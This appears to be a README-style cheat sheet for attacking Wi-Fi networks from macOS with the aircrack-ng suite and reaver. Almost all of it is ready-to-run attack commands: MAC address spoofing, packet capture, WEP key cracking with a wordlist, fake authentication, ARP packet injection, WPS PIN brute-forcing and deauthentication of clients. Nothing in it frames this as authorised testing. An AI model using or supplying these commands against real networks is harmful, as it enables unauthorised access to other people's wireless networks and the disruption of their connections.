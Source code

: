 ## Tool to install on MACOS

brew install reaver
brew install aircrack-ng

## COMMANDS

**Network interface commands**

    ifconfig                       (List network interface)

    ifconfig "network" down        (Disable network interface)

    ifconfig "network" up          (Enable network interface)

    ifconfig en0 xx:xx:xx:xx:xx:xx (Change mac address)

**Airsuite commands** 

Wireless adapter must allow monitor mode and packet injection here we call it "mo0", to get 
for Mac of your wireless adapter:
run "ifconfig"
MAC-WIRELESS-MONITOR = First twelve digit of the unspec field and replace "-"" by ":""

    airodump-ng mo0                               (Enable sniffer mode)

    airodump-ng --bssid "BSSID" --channel ""      (Capture packets)
    --write "file_name" mo0

    aircrack-ng "file.cap"                        (Crack WEP based wifi)

    aircrack-ng "file.cap" -w "wordlist.txt       (Crack WEP based wifi)

    aireplay-ng --fakeauth 0 -a "MAC-Target"      (Fake auth attack)
    -h "MAC-wireless-monitor" mo0

    aireplay-ng --arpreplay -b "MAC-Target" -h    (Arp packet injection)
    "MAC-wireless-monitor" mo0

    wash -i mon0                                  (Detext WPS networks)


    reaver --bssid "mac-target" --channel "nb"    (Bruteforce PIN WPS)
    --interface mo0 -vvv --no-associate

    aireplay-ng --deauth 4 -a "mac-target-network" (Deauth Attack)
    -c "mac-target-client-to-deauth" mon0


